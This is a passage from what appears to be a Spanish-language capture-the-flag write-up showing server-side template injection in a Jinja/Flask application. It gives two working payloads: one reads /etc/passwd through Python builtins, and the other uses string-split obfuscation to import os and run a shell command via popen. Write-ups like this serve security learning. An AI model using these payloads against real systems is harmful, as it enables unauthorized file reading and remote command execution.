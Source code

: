 Entre todas esas líneas vemos una función llamada **`Open`**. Esta función nos permite abrir cualquier fichero y así leer su contenido. Vamos a leer el fichero **`/etc/passwd`{: .filepath }**:

```html
<html>
   <head>
   </head>
   <body>
      &#123;&#123; config.__class__.from_envvar.__globals__.__builtins__.open("/etc/passwd").read()  &#125;&#125;
   </body>
</html>
```

![Passwd File](/assets/img/imgs/zeug/passwd_file.png)

¡Qué bien! Vemos que podemos leer ficheros internos de la máquina. Veamos ahora cómo poder ejecutar comandos.

Si volvemos a ver la lista de funciones veremos que hay una llamada **`Eval`**. Esta función nos podrá permitir ejecutar comandos de forma remota. Veamos un ejemplo:

```html
<html>
   <head>
   </head>
   <body>
      &#123;&#123; config.__class__.from_envvar.__globals__.__builtins__.eval("__impor" + "t__('o' + 's').pop" + "en('whoami').read()")  &#125;&#125;
   </body>
</html>
```
